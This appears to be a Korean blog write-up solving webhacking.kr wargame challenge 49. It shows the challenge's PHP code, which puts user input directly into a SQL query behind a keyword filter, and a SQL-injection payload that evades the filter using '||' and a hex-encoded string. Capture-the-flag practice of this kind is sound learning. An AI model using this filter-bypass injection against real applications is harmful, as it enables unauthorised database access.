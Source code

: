 ```yaml
---
title: "[webhacking.kr] 49번 문제 풀이[sql injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "49번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Webhacking.kr challenge(old) 49번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152792504-e79a6af9-6eb6-4943-ab61-af213229089e.png)

  ```php
<?php
  if($_GET['lv']){
    $db = dbconnect();
    if(preg_match("/select|or|and|\(|\)|limit|,|\/|order|cash| |\t|\'|\"/i",$_GET['lv'])) exit("no hack");
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall49 where lv={$_GET['lv']}"));
    echo $result[0] ;
    if($result[0]=="admin") solve(49);
  }
?>
  ```

# 문제 풀이
  injection을 해야 하는 sql문은 다음과 같습니다.

  ```sql
select id from chall49 where lv={}
  ```

  우선 초기 인젝션 페이로드를 다음과 같이 구성합니다.
  ```sql
100||id='admin'
  ```

  위의 페이로드중 필터링에 걸리는 부분은 "'"밖에 없습니다.
  'admin' 대신에 0x61646d696e로 바꿔서 페이로드를 구성합니다.

  ```sql
100||id=0x61646d696e
  ```

  ![image](https://user-images.githubusercontent.com/33647663/152793795-065137f4-63c3-4cc9-9edf-5197eec1e931.png)